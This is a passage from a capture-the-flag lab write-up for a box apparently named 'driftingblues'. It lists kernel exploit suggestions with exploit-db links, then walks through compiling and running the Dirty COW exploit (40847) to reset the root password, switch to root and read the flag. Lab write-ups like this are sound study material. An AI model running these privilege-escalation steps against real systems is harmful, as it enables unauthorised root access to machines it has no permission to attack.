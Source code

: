 [+] [CVE-2013-1959] userns_root_sploit

   Details: http://www.openwall.com/lists/oss-security/2013/04/29/1
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/25450

[+] [CVE-2013-0268] msr

   Details: https://www.exploit-db.com/exploits/27297/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/27297
```

First one fails and dirtycow2, the first link https://www.exploit-db.com/download/40839 breaks the box, try the second.  https://www.exploit-db.com/download/40847

The first line in the CPP of 40847 tells us how to use it:
`└─$ cat ~/Downloads/40847.cpp` 
`// EDB-Note: Compile:   g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil`

Transfer the cpp over and run the command
```g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil```
`<$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil`      
`www-data@driftingblues:/tmp$ ./dcow`
`./dcow`
`Running ...`
`Received su prompt (Password: )`
`Root password is:   dirtyCowFun`
`Enjoy! :-)`
`www-data@driftingblues:/tmp$ su root`
`su root`
`Password: dirtyCowFun`
`root@driftingblues:/tmp#`

Grab the flag
`cat /root/proof.txt`
`cat /root/proof.txt`
`71bceeab98eda4030ef5562e8abca04b`






